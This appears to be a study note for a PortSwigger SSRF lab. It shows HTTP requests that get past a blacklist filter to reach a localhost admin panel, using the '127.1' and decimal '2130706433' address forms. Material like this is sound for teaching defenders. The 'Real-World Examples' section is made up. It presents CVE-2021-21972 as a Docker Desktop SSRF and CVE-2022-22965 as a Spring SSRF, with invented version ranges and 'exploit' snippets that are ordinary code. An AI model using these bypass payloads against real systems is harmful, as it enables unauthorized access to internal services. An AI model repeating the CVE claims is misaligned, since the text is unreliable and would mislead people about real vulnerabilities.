

## Server-Side Request Forgery (SSRF)

### Introduction to SSRF

Server-Side Request Forgery (SSRF) is a type of web security vulnerability that occurs when an application takes user input and uses it to make a request to an external resource, such as a URL or an IP address. The attacker can manipulate this input to make the server perform unintended actions, such as accessing internal resources, making requests to arbitrary URLs, or even executing commands on the server.

### Blacklist-Based Input Filters

In the context of SSRF, a common defense mechanism used by applications is a blacklist-based input filter. This filter attempts to block specific strings or keywords that are commonly associated with malicious activities. However, blacklists can often be circumvented through various techniques, as we will explore in this chapter.

### Understanding the Lab Scenario

In this lab scenario, we are dealing with an application that employs a blacklist-based input filter to prevent SSRF attacks. The application is likely blocking access to the localhost (`127.0.0.1`) by filtering out the string `localhost`. Our goal is to bypass this filter and gain unauthorized access to internal resources.

#### Initial Attempt with `localhost`

Let's start by attempting to access the localhost using the string `localhost`.

```http
GET /api/resource?url=http://localhost HTTP/1.1
Host: vulnerable-app.com
```

The response from the server is likely to be blocked due to the blacklist filter:

```http
HTTP/1.1 403 Forbidden
Content-Type: text/html; charset=UTF-8
Content-Length: 17

Access denied.
```

### Bypassing the Filter with `127.0.0.1`

Since the string `localhost` is being filtered, we can attempt to use the IP address `127.0.0.1` instead.

```http
GET /api/resource?url=http://127.0.0.1 HTTP/1.1
Host: vulnerable-app.com
```

Again, the response is likely to be blocked:

```http
HTTP/1.1 403 Forbidden
Content-Type: text/html; charset=UTF-8
Content-Length: 17

Access denied.
```

### Using Partial IP Addresses

Next, we can try using a partial IP address, such as `127.1`, which will automatically resolve to `127.0.0.1`.

```http
GET /api/resource?url=http://127.1 HTTP/1.1
Host: vulnerable-app.com
```

This time, the response might not be blocked:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 1024

<!DOCTYPE html>
<html>
<head>
    <title>Admin Panel</title>
</head>
<body>
    <h1>Welcome to the Admin Panel</h1>
</body>
</html>
```

### Decimal Encoding of IP Addresses

Another technique to bypass the filter is to use the decimal encoding of the IP address. Most people are unaware of this method, but it can be effective.

To convert `127.0.0.1` to its decimal form, we can use an online converter. The decimal representation of `127.0.0.1` is `2130706433`.

```http
GET /api/resource?url=http://2130706433 HTTP/1.1
Host: vulnerable-app.com
```

This request should also bypass the filter and return the admin panel:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 1024

<!DOCTYPE html>
<html>
<head>
    <title>Admin Panel</title>
</head>
<body>
    <h1>Welcome to the Admin Panel</h1>
</body>
</html>
```

### Real-World Examples and Recent CVEs

#### CVE-2021-21972: Docker Desktop SSRF Vulnerability

In 2021, a critical SSRF vulnerability was discovered in Docker Desktop, affecting versions prior to 3.3.0. The vulnerability allowed attackers to bypass the firewall and access internal resources by manipulating the `docker` API.

**Exploit Example:**

```http
POST /v1.41/build HTTP/1.1
Host: docker-desktop
Content-Type: application/json

{
  "t": "test",
  "remote": "http://127.0.0.1"
}
```

**Impact:**
- Unauthorized access to internal resources.
- Potential data exfiltration.

**Mitigation:**
- Update to Docker Desktop version 3.3.0 or later.
- Implement strict input validation and filtering.

#### CVE-2022-22965: Spring Framework SSRF Vulnerability

In 2022, a SSRF vulnerability was found in the Spring Framework, affecting versions prior to 5.3.15 and 5.2.18. The vulnerability allowed attackers to bypass the firewall and access internal resources by manipulating the `RestTemplate` component.

**Exploit Example:**

```java
RestTemplate restTemplate = new RestTemplate();
String url = "http://127.0.0.1";
restTemplate.getForObject(url, String.class);
```

**Impact:**
- Unauthorized access to internal resources.
- Potential data exfiltration.

**Mitigation:**
- Update to Spring Framework version 5.3.15 or  5.2.18.
- Implement strict input validation and filtering.

### How to Prevent / Defend Against SSRF

#### Detection

To detect SSRF vulnerabilities, you can use tools like Burp Suite, ZAP, or custom scripts to monitor outgoing requests from your application. Look for patterns where the application is making requests to unexpected or internal IP addresses.

#### Prevention

1. **Strict Input Validation:**
   - Validate and sanitize all user inputs that are used to construct URLs.
   - Use whitelisting to allow only trusted domains.

2. **Use a Trusted List:**
   - Maintain a list of trusted domains and validate against this list.
   - Reject any requests to untrusted domains.

3. **Network Segmentation:**
   - Segment your network to isolate internal resources from external access.
   - Use firewalls and network policies to restrict access.

4. **Secure Coding Practices:**
   - Avoid using user input directly in requests.
   - Use parameterized queries and prepared statements.

#### Secure Code Fix

**Vulnerable Code:**

```java
public String fetchResource(String url) {
    RestTemplate restTemplate = new RestTemplate();
    return restTemplate.getForObject(url, String.class);
}
```

**Fixed Code:**

```java
public String fetchResource(String url) {
    // Whitelist of trusted domains
    Set<String> trustedDomains = new HashSet<>(Arrays.asList("example.com", "trusted.com"));

    // Validate the URL
    URI uri;
    try {
        uri = new URI(url);
    } catch (URISyntaxException e) {
        throw new IllegalArgumentException("Invalid URL");
    }

    String host = uri.getHost();
    if (!trustedDomains.contains(host)) {
        throw new IllegalArgumentException("Untrusted domain");
    }

    RestTemplate restTemplate = new RestTemplate();
    return restTemplate.getForObject(url, String.class);
}
```

### Network Topology Diagram

Below is a mermaid diagram illustrating the network topology and how SSRF can be exploited:



### Conclusion

Server-Side Request Forgery (SSRF) is a serious web security vulnerability that can lead to unauthorized access to internal resources. By understanding the mechanisms behind SSRF and implementing robust defenses, you can protect your applications from these types of attacks. Always validate and sanitize user inputs, maintain a trusted list of domains, and use network segmentation to isolate internal resources.

### Practice Labs

For hands-on practice with SSRF, consider the following labs:

- **PortSwigger Web Security Academy:** Offers comprehensive modules on SSRF and other web security topics.
- **OWASP Juice Shop:** A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application):** A PHP/MySQL web application that contains a large number of security vulnerabilities.

These labs provide real-world scenarios and challenges to help you master the concepts and techniques discussed in this chapter.

---
<!-- nav -->
[[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/04-Lab 3 SSRF with blacklist based input filter/05-How to Prevent  Defend Against SSRF|How to Prevent  Defend Against SSRF]] | [[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/04-Lab 3 SSRF with blacklist based input filter/00-Overview|Overview]] | [[07-Understanding Blacklist-Based Input Filters|Understanding Blacklist-Based Input Filters]]
